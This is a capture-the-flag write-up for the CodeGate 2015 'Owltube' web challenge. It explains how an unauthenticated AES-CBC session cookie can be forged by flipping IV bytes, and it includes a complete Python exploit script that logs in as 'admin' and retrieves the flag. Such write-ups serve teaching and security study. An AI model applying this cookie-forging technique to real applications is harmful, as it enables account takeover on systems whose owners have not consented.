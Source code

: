 # CodeGate General (preliminaries) CTF 2015: Owltube

**Category:** Web
**Points:** 400
**Description:** 

> You're welcome to betatest our new social media site, it's going to be the next big thing.
> 
> Server : http://54.64.164.100:5555/
> Script : [http://binary.grayhash.com/2a0182588cf5550cebb49876d94c7a2f/index.py](index.py)
> 
> - option : please check the notice board.

## Write-up

The challenge consists of a python Tornado web application using mongodb and allows users to register, login and add links to youtube videos.
User sessions are managed through an authentication cookie that is constructed as follows:

>```python
>def set_cookie(resp, cookie):
>	cookie = json.dumps(cookie)
>
>	iv = Random.new().read(BS)
>	aes = AES.new(SECRET_KEY, AES.MODE_CBC, iv)
>	cookie = pad(cookie)
>	cookie = iv + aes.encrypt(cookie)
>	cookie = cookie.encode("base64")
>	cookie = cookie.replace("\n", "")
>
>	resp.set_cookie("auth", cookie)
>```

The cookie value passed to set_cookie is set, upon successful login, to a json representation of the following dictionary:

>```python
>	u = {}
>	u["u"] = request.form.get("user")
>	u["pw"] = request.form.get("pw")
>```

The vulnerability here resides in the fact that the cookie is encrypted using AES in Cipher Block Chaining (CBC) mode. In CBC mode, each block of plaintext is XORed to the previous block of ciphertext before being encrypted, using a random IV for the first block of plaintext. Conversely, upon decryption, each block of ciphertext is decrypted and subsequently XORed to the previous block of ciphertext (or the IV in case of the first block) to yield the final decrypted block.

![alt cbc_decryption](cbc_decryption.png)

Since CBC mode comes with no authentication mechanism (eg. a MAC, signature, etc.) the application has no means to detect if the encrypted data it processes has been altered or not by a malicious client. This allows us to perform a bitflipping attack on our encrypted cookie. Flipping a byte in a ciphertext block will corrupt the corresponding decrypted block but produce a corresponding flip in the byte at the same block-offset within the subsequent block. Hence, given a known plaintext byte at offset i in the plaintext, we can alter the byte at offset i in the final decryption result by flipping byte (i-block_size) of the ciphertext (or byte i of the IV if i < block_size).

Since the decryption result must always be a valid json string, we cannot afford corrupting the ciphertext itself and hence are restricted to flipping the first 16 bytes of the plaintext by corrupting the IV only. We can set bytes at offsets 0..15 in the decryption result to our target text by corrupting the IV in the following manner:

>```python
>iv[i] = chr(ord(known_plaintext[i]) ^ ord(iv[i]) ^ ord(target_text[i]))
>```

This, of course, requires known plaintext for at least the first 16 bytes. If we register a user, we know the full plaintext of the cookie:

>```python
>{"u": "username", "pw": "password"}
>```

In the application source we can see the following code for the index:

>```python
>def index():
>	if is_logged_in():
>		videos = []
>		for i, vid in enumerate(g.db.videos.find({"user": g.user["u"]})):
>```

We will try to construct a cookie with a plaintext that allows us to achieve successful login as the user "admin" (which we guessed to be the target account for flag retrieval, since it was the only username always taken while the rest of the usernames were periodically wiped from the database). If we register a user with username "x" and password "admin", our known plaintext will be:

>```python
>{"u": "x", "pw": "admin"}
>```

We want to flip this to the following in order to eliminate the "pw" field so we can achieve successfull login:

>```python
>{"u":  "x", "u": "admin"}
>```


The [final exploit](solution/owltube_exploit.py) is as follows:

>```python
>#!/usr/bin/python
>#
># CODEGATE General CTF 2015
># OWLTUBE (WEB/400) Exploit
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>import requests
>from Crypto.Cipher import AES
>
>BS = AES.block_size
>
>class exploit:
>	def __init__(self):
>		self.r = None
>		self.cookies = None
>		return
>
>	def getAuthcookie(self):
>		if(self.cookies):
>			return self.cookies['auth']
>		else:
>			return None
>
>	def login(self, url, username, password):
>		payload = {'user': username, 'pw': password}
>		self.r = requests.post(url + '/login', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def register(self, url, username, password, email):
>		payload = {'user': username, 'pw': password, 'email': email}
>		self.r = requests.post(url + '/register', data=payload)
>		self.cookies = self.r.cookies
>		return
>
>	def visit(self, url, authcookie):
>		cookie = {'auth': authcookie}
>		self.r = requests.get(url, cookies=cookie)
>		return (self.r.text, self.r.status_code)
>
>email = "x@x"
>username = "x"
>password = "admin"
>
>url = 'http://54.64.164.100:5555'
>
>sploit = exploit()
>
>sploit.register(url, username, password, email)
>sploit.login(url, username, password)
>
>cookie = sploit.getAuthcookie()
>(iv, e) = (cookie.decode('base64')[:BS], cookie.decode('base64')[BS:])
>
>print "[+]Cookie: [%s]" % cookie
>print "[+]IV: [%s]" % iv.encode('hex')
>print "[+]Ciphertext: [%s]" % e.encode('hex')
>
>plaintext = '{"u": "x", "pw": "admin"}'
>targetext = '{"u":  "x", "u": "admin"}'
>
>iv2 = list(iv)
>for i in range(0, 16):
>	iv2[i] = chr(ord(plaintext[i]) ^ ord(iv2[i]) ^ ord(targetext[i]))
>
>iv2 = "".join(iv2)
>
>cookie = (iv2 + e).encode("base64").replace("\n", "")
>
>(t, s) = sploit.visit(url, cookie)
>
>print t
>```

Which will yield the following result:

>$ python owltube_exploit.py
>[+]Cookie: ["YOk8jak/YUSlKfeEYkJWfkqVJ0kui19L4OVjlO8buQAKYbVZT4dyIeiyKATU/BK8"]
>[+]IV: [60e93c8da93f6144a529f7846242567e]
>[+]Ciphertext: [4a9527492e8b5f4be0e56394ef1bb9000a61b5594f877221e8b22804d4fc12bc]
><html>
><head>
>        <title>Owltube - index</title>
>        <link href="static/css/bootstrap.min.css" rel="stylesheet" media="screen">
>(...)
>
>               <span class="badge badge-important">1</span><span class="btn btn-link" onclick="play('the_owls_are_watching_again')">THIS IS THE KEY</span></br></br>
>(...)

Giving the flag: 

>the_owls_are_watching_again